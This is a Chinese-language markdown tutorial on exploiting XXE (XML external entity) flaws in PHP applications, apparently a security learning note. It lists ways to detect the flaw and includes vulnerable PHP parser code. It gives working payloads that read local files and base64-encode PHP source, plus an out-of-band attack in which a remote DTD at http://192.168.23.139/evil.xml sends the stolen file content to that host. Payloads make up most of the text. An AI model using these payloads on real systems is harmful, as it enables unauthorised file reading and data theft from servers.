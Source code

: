 # XXE利用过程

---

- 判断是否存在漏洞

  ```
  http头，观察是否有XML相关字符串
      X-Requested-With: XMLHttpRequest
      Accept: application/xml, text/xml, */*;
  data传输数据，是否解析xml内容
  	<reset><login>bee</login></reset>    
  ```
  
- 有回显漏洞环境(以php为例)

  ```
  <?php
  $data = file_get_contents('php://input');
  $dom = new DOMDocument();
  $dom->loadXML($data);
  print_r($dom);
  ```
  
  

- 有回显利用（以下为文件读取）

  有回显也可以用OOB-XXE，但是没必要，因为效果一样
  
  ```
  data：（xml外部实体bee被赋予值为"file:///d:/robots.txt"，当解析xml文档时，bee会被替换为file:///d:/robots.txt的内容。就被执行回显回来了。）
  
  <?xml version="1.0" encoding="utf-8" ?>
  <!DOCTYPE test[
      <!ENTITY % dtd SYSTEM "file:///d:/robots.txt">
      # <!ENTITY % dtd SYSTEM "php://filter/read=convert.base64-encode/resource=E:/phpstudy_pro/WWW/php_xxe/doLogin.php"> 
      # 读php文件需要base64转码，不然会直接解析
  ]>
  <reset><login>&dtd;</login></reset>
  
  ```
  
- 无回显漏洞环境(以php为例)

  ```
  <?php
  libxml_disable_entity_loader (true);
  $xmlfile = file_get_contents('php://input');
  $dom = new DOMDocument();
  $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
  ?>
  ```

  

- 无回显利用（这里建议使用python 的http可以记录请求内容，如果使用apache : tail -f /var/log/apache2/access.log 查看日志）

  OOB-XXE:引用远程dtd文件的XXE
  
  ```
<?xml version="1.0"?> 
  <!DOCTYPE test[ 
  <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=E:/phpstudy_pro/WWW/php_xxe/doLogin.php"> # 定义实体file内容为php文件base64编码
  <!ENTITY % dtd SYSTEM "http://192.168.23.139/evil.xml"> # 定义实体dtd内容为xml的内容
  %dtd;  # 执行dtd
  %send; # 执行send
  ]>
  
   
  evil.xml（将内容发送到服务器本地）
  <!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://192.168.23.139/?content=%file;'>">
  #  定义实体payload内容为dtd的send的定义内容，&#x25;为“%”号
  %payload;  # 执行payload
  ```
  
  